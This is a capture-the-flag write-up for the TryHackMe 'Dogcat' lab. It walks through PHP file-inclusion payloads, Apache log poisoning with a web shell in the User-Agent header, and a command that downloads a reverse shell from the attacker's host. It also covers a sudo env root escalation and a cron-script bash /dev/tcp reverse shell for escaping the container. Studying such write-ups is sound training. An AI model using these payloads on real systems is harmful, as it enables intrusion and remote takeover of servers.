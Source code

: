 # Tryhackme : Dogcat


## Initial Recon

At first it wasn't giving any kind of output. So it was blocking ping requests. 

```
sudo nmap -Pn 10.10.110.36 > rec_ini
```

![](Pictures/rec_ini.png)

On trying to access the IP address directly it wasn't accessing the web page. </br>
The scan results show that the port 80 is filtered. </br>

But upon accessing `http://10.10.110.36/index.php` it gives the page.

![](Pictures/web_page.png)

For viewing the pictures the client sends requests in the form of `http://10.10.110.36/?view=dog`
for dog pics.

1) If we send any other words than dog or cat, it gives an error saying only dogs and cats are allowed. </br>
2) On adding any other character to the request parameter, like `/?view=dog'` or anything else,it gives an error :

```
Warning: include(dog'.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dog'.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

It seems that it includes the dog.php or cat.php file using the `include()` function in php</br>

3) Possibility of command injection or path traversal using the `include()` function.</br>

https://www.acunetix.com/websitesecurity/php-security-2/

4) To bypass the safeguards, we can use php wrapper.</br>
https://null-byte.wonderhowto.com/how-to/beat-lfi-restrictions-with-advanced-techniques-0198048/</br>

5) We use the following for this : 

```
php://filter/read=convert.base64-encode/resource=./dog/../index
```


We can take the base64 encoded form and paste it into a file. Then we can use that file to base64 decode the string to get the index.php

```
cat index | base64 -d > index.php
```

![](Pictures/base64.png)

```
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

In the index.php : 

1) First check if the `ext` parameter is given</br>
2) If not given then the script appends the .php extension automatically.</br>
3) If given then the extension is not given</br>

The flag1 can be obtained using the php wrapper : 

```
http://10.10.155.124/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag
```

```
kali@kali:~/dogcat$ echo PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo= | base64 -d
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

It seems that the flag file is in php format.

## Getting Code Execution

We can view other files like `/etc/passwd` just by adding the `ext` parameter

```
http://10.10.155.124/?view=./dog/../../../../../../../etc/passwd&ext
```

We can get the log files also : 

```
http://10.10.155.124/?view=./dog/../../../../../../../var/log/apache2/access.log&ext=
```

This will give us the access.log of the apache2 server.

![](Pictures/log_files.png)

The User-Agent is not url-encoded(unlike other parameter) when a new request is made. Therefore, we can use it for grabbing a reverse shell from our box.

But before that get a php reverse shell and set the ip and port according to your machine.

Start a http server on port 80

```
sudo python3 -m http.server
```

Then use `php` tags to use the function `file_put_contents()` in the User-Agent field.</br>

In place of User-Agent write : 

```
<?php file_put_contents('shell.php',file_get_contents('http://10.9.84.8/shell.php'))?>
```

If there is not syntax error then reload the log page, it will grab the `shell.php` from your server.

Upon visiting `http://IP/shell.php` will give you a shell on netcat listener.


## Privilege Escalation


If we check `sudo -l` we will see that the user can execute /bin/env as sudo:

![](Pictures/privs.png)

Upon checking GTFObins we check for `env`

```
sudo env /bin/sh
```

Running this on the box will give us root shell : 

![](Pictures/root.png)

Get flag3.txt in /root folder. </br>
Upon running `find / | grep flag` we find flag2.txt. : 

```
/var/www/flag2_QMW7JvaY2LvK.txt
```

The last flag couldn't be found in the standard format. </br>
Try linpeas.sh


## Getting out of container

If we check the `/opt/backups/backup.sh` script, we see that it creates backups outside the container, in /root/container. If we change the backup.sh, we can get us a reverse shell.


```
echo "#!/bin/bash" > backup.sh

echo "/bin/bash -c 'bash -i >& /dev/tcp/10.9.84.8/1331 0>&1'" >> backup.sh
```

Since this script is executed using a cron-job, we will get a shell after sometime

![](Pictures/outside_root.png)



# Extra Notes


To get proper code execution on this box, upload a parameter `cmd` using the php tags:

```
curl "http://$IP_TARGET/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

This will add a `cmd` parameter to the log_file and we can directly execute code using that.


![](Pictures/command_exec.png)


Here we can see the execution of the command `ls`. </br>
Since, the box doesn't have wget, we can use curl to get our php reverse shell on the box.

Visit `10.10.196.254/?view=dog/../../../../../../var/log/apache2/access.log&ext&cmd=curl -O http://10.9.84.8/shell.php`  from the browser with your http server running in order to get the reverse shell onto the box.</br>
If we check the `pwd` we see that we are in the `/var/www/html` directory. Therefor we can directly access the reverse shell.</br>
